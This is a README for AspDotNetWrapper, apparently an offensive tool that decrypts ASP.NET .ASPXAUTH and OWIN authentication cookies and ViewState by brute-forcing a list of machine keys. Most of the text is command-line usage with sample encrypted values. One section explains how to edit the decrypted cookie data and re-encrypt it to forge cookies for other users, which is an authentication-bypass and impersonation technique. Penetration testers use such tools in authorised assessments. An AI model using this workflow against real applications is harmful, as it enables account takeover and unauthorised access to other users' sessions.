 # AspDotNetWrapper

The tool used to encrypt/decrypt .aspnet.applicaitoncookie and .ASPXAUTH cookie and ViewState against list of MachineKeys.

### Usage
```
AspDotNetWrapper.exe --help

AspDotNetWrapper 1.0.0.0
Copyright ©  2018

  -r, --keypath                Machine keys file path.
  -c, --cookie                 Cookie value to decrypt.
  -d, --decrypt                (Default: false) To decrypt the cookie.
  -f, --decryptDataFilePath    file path where the decrypted information stored
  -p, --purpose                purpose
  -a, --valalgo                Validation algorithm
  -b, --decalgo                Decryption algorithm
  --help                       Display this help screen.
  --version                    Display version information.
```

#
#
### To decrypt asp.net.applicationcookie (Owin auth cookie)

Sample Command
```console
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata 195A989biBjM_NAqqiie5DnHKfcwrNGDuT-Suumqmw6oVyLSsjCFx9Emhf034TDjcuC9mfwNbi6yD-1QlbhcUAgdTOwY0o0sNbg7bJrNyUEf6ZoyYh2QAZHhmxteN_cMQJI7C1WOBEl0ocihUVhKghdxegwRURcYx2h1uMbijX3jsEf59L8Uco_PpfFLN--RtcLTKUvtZd0fH5Sgc1JQmsvTBr7IJ4Ua01I8uyEPYNXZGYvssSzJ8YN6MXioky3WBXv9NGNxDpgTpIPWGetgZ0iOSaTmqPr6sPu4ndesUV4SKsBroIP6Y38rr8LwFCZBKDK5dli4kKwmy9xeM02qshCoLf8ppeOiK2aMLfb9jqkraoss2BflD3hpDdrYHVGH7ryTWQh4HABYDC7OOMgdld3WJ1CUfJ9pmr0qnVFD4Gc --decrypt --purpose=owin.cookie  --valalgo=hmacsha512 --decalgo=aes

--encrypteddata : value to decrypt using tool
--decrypt : If you add this argumenet the tools try to decrypt the cookie
--purpose: owin.cookie to decrypt the .aspnet.applicationcookie cookie
--valalgo: Validation algorithm
--decalgo: Decryption algorithm
```

### To decrypt .aspxauth (Forms authentication cookie)

Sample Command
```console
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata CA387A93AD4214F356ED05C26C1E4D80F0804CD526766778B62D4F9213B87B5369755F95008A34644B9CA6B7646E191958A1AE14DB398AB943D3DB042EDA06EC4B5BEA9E3EB60E9877646AD4A50BE9435A2D3B4B3005836CBBBDA64A5E8738511211AA1F --decrypt --purpose=aspxauth --valalgo=sha1 --decalgo=aes

--encrypteddata : value to decrypt using tool
--decrypt : If you add this argumenet the tools try to decrypt the cookie
--purpose: aspxauth to decrypt the .ASPXAUTH cookie
--valalgo: Validation algorithm
--decalgo: Decryption algorithm
````
#
#
#
#### After perform decryption for .aspxauth and .aspnet.applicationcookie value, The tool was stored decryption information in "DecryptText.txt". 

#### In order to re-generate cookies for other users, It is required to update the cookie information in "DecryptText.txt" file and then run the encryption utility of the tool as shown below:
#
```console
AspDotNetWrapper.exe --decryptDataFilePath DecryptedText.txt

--decryptDataFilePath: Decrypted data path, which contain the plaintext information of user cookie
````
#
#
### To decode ViewState
```console
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --modifier=CA0B0334 --legacy --macdecode

--encrypteddata : __VIEWSTATE parameter value of the target application
--modifier : __VIWESTATEGENERATOR parameter value
````

#
#
### To Decrypt ViewState
```console
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata Ve3mZjZwbMRyGTts1EV0F7Hp4eAx11qmXi45oAE7/bDDmA55+Kf9+WWACzUQtly4pRQYkMgmZJnJIDCQQhLNCWaHKbgY7dOiHn8JE7Yx19xvVhYyoqnC8ITLvHiiuJl8+LFmPJwS7ip3vAe+o7mxg2H15VUW5LO56AiTErT7UUw4Au002vflZUF6h/Fx/TJAYciUlZ8CmNW9/GIoPAC9tQ4SVhGD7is8Gu8DiUJE0AjHTLQFcy9vgSk1ovpy4gn9gl98mNVk17uCI7LLYPkvO3Xuix2WTogyqaPQOn7gJz7Say/aqqhmW90LdGo0qeldEUvMGw== --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --IISDirPath "/" --TargetPagePath "/Content/default.aspx"

--encrypteddata : __VIEWSTATE parameter value of the target application
--IISDirPath : TemplateSourceDirectory
--TargetPagePath : Aspx page path
````